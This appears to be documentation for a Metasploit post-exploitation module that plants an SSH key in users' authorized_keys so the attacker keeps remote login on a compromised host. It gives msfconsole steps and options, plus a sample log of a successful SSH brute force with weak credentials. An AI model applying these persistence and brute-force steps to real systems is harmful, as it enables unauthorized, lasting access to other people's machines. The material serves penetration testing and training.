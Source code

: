 This module will add an SSH key to a specified user (or all), to allow remote login on the victim via SSH at any time.

### Creating A Testing Environment

  This module has been tested against:

1. Kali Rolling
2. Ubuntu 16.04
3. Centos 6
4. Fedora 20
5. FreeBSD 9

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  4. Do: `use post/linux/manage/sshkey_persistence`
  5. Do: `set session #`
  6. Optional Do: `set username`
  7. Do: `set verbose true`
  8. Optional Do: `Set sshd_config`
  9. Do: `exploit`


## Options

  **SSHD_CONFIG**

  Location of the sshd_config file on the remote system.  We use this to determine if the authorized_keys file location has changed on the system.  If it hasn't, we default to .ssh/authorized_keys

  **USERNAME**

  If set, we only write our key to this user.  If not, we'll write to all users

  **PUBKEY**

  A public key to use.  If not provided, a pub/priv key pair is generated automatically

## Scenarios

### Ubuntu 16.04 (user level)

Get initial access

    msf auxiliary(ssh_login) > exploit
    
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'tiki:tiki' 'uid=1000(tiki) gid=1000(tiki) groups=1000(tiki),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),117(lpadmin),118(sambashare) Linux tikiwiki 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.2.229:38886 -> 192.168.2.190:22) at 2016-06-19 09:52:48 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
